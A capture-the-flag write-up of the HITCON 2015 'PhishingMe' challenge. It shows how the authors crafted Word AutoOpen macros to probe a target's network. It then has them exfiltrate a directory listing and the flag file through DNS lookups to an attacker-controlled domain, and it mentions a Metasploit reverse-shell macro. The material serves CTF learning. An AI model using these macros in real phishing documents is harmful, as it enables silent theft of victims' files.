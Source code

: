 # PhishingMe - Misc 200 Problem - Writeup by Erye Hernandez (@eryeh)

### Description
```
Sent me a .doc, I will open it if your subject is "HITCON 2015"!
Find the flag under my file system. 
p.s. I've enabled Macro for you. ^_________________^
phishing.me.hitcon.2015@gmail.com.
```
Based on the description and problem title, the goal of this challenge is to email a malicious document to `phishing.me.hitcon.2015@gmail.com` which will somehow exfiltrate the file that contains the flag from their system. 


### Walkthrough
Given this information, the first impulse is to quickly create a malicious document using `Metasploit` (more info [here](https://www.offensive-security.com/metasploit-unleashed/vbscript-infection-methods/)). `Metasploit` automagically creates `VBScript` code and a `reverse tcp shell` payload that you just copy and paste to your Word document. This payload gives us a shell into their system so we can easily navigate and find the text file containing the flag. Despite this method working locally when we tested it, it does not solve the problem. This means that the remote system has some kind of firewall that blocks outgoing traffic. Since this is a `200 pt` problem, it makes sense that solving it would require a bit more work.


#### Creating a macro in Word
Since this challenge requires using macros in a Word document to complete the challenge, we outline the steps of creating macros below. 

If using MS Word 2003, click on `Tools` then `Macros` and then finally `Macros`. 
<img src="https://github.com/pwning/public-writeup/blob/master/hitcon2015/misc200-phishingme/office_2003.png" width="500">

If using MS Word 2007, click on `View` then `Macros` and thenn finally `View Macros`.
<img src="https://github.com/pwning/public-writeup/blob/master/hitcon2015/misc200-phishingme/office_2007.png" width="600">

Create a macro named `AutoOpen` in the `macro` dialog box and it will launch the `Visual Basic Editor` where you can create and debug your `macros`.

<img src="https://github.com/pwning/public-writeup/blob/master/hitcon2015/misc200-phishingme/macro_dialog.png" width="400">


#### So how do we exfil all the data?  

When the `reverse shell` payload route failed, we decide to find alternatives to exfiltrating data. Since `TCP port 80` is a common port that is not blocked, we first explore the possibility of getting data out using plain old `HTTP`. We use the script below to check if `outgoing` traffic on `TCP port 80` is possible.

```vb
Sub AutoOpen()
  Dim objHttp: Set objHttp = CreateObject("Microsoft.XMLHTTP")

  uri = "http://X.X.X.X/poop/"
  objHttp.Open "GET", uri, False
  objHttp.send
End Sub
```

Since we did not see any connections to our web server when we sent this script, we can safely assume that `outgoing` traffic on `TCP port 80` is also blocked. Next, we check if `DNS` traffic is blocked by using the script below.

```vb
Sub AutoOpen()
  Dim objShell: Set objShell = CreateObject("WScript.Shell")
  objShell.Exec ("%comspec% /c nslookup tun.mydomain.com")
End Sub
```

We see their server connecting to ours so this is good news! The above script also tells us that it is possible to issue command line instructions to the system via `VBScript`. We can use `DNS` requests to exfiltrate data from their system. Now, we have to figure out where the flag is located. 


#### Capturing the flag
We created the `VBScript` below to help with the task of finding the flag in the remote system. Since we are using `DNS` lookup queries, we have to make sure that there are no `whitespaces` in the data that is sent as a `DNS` query so we replace `whitespaces` with an `underscore` ("_"). Although not necessary, we also replace the occurences of `periods` (".") with an `underscore`. We decide to first do a file listing of the current working directory as this would be the most logical place for the flag file to be.

```vb
Sub AutoOpen()
  Dim objShell: Set objShell = CreateObject("WScript.Shell")
  Dim objFSO: Set objFSO = CreateObject("Scripting.FileSystemObject")
  Dim objFolder: Set objFolder = objFSO.GetFolder(".")
  
  objShell.Exec ("%comspec% /c nslookup " & objFolder.Path & ".tun.mydomain.com")
  
  Set colFiles = objFolder.Files
  buff = ""
  For Each objFile In colFiles
    buff = Replace(objFile.Name, " ", "_")
    buff = Replace(buff, ".", "_")
    objShell.Exec ("%comspec% /c nslookup " & buff & ".tun.mydomain.com")
  Next
End Sub
```

Once we got our results back, we notice a file called `secret.txt`. This file sounds promising so we open the file and send the contents back through `DNS` query. Here is what the traffic looks like with the flag (`hitcon{m4cr0_ma1ware_1s_m4k1ng_a_c0meb4ck!!}`)

```
17:40:10.859126 IP ec2-54-199-14-224.ap-northeast-1.compute.amazonaws.com.24390 > ns4009839.ip-192-99-5.net.domain: 22447 [1au] AAAA? hitcon{m4cr0_ma1ware_1s_m4k1ng_a_c0meb4ck!!}.tun.mydomain.com. (93)
```

Yay! We are done! It is surprising to note however that `DNS` queries actually allow `{` and `!` characters. The final (cleaned up) macro can be found [here](https://github.com/pwning/public-writeup/blob/master/hitcon2015/misc200-phishingme/macro.vbs).
